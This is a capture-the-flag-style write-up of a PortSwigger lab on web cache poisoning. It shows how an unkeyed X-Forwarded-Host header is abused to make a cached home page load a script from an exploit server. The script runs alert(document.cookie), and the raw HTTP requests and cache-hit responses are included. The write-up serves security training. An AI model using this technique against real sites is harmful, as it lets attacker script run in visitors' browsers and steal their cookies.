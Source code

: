 # [Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)

## Lab

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

## Scan

Param Miner extension results, `x-forwarded-host` is an unkeyed header:

![param-miner.png](./../img/lab-1-param-miner.png)

## Analysis

Observe that the X-Forwarded-Host header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`.

Replay the request and observe that the response contains the header X-Cache: hit. This tells us that the response came from the cache.

## Solutions

Craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET / HTTP/1.1
Host: id.web-security-academy.net
...
X-Forwarded-Host: exploit-id.exploit-server.net

HTTP/1.1 200 OK
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
```

access `/` without `X-Forwarded-Host`:

  ```http
  HTTP/1.1 200 OK
  Cache-Control: max-age=30
  Age: 10
  X-Cache: hit

  <script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
  ```

=> solved
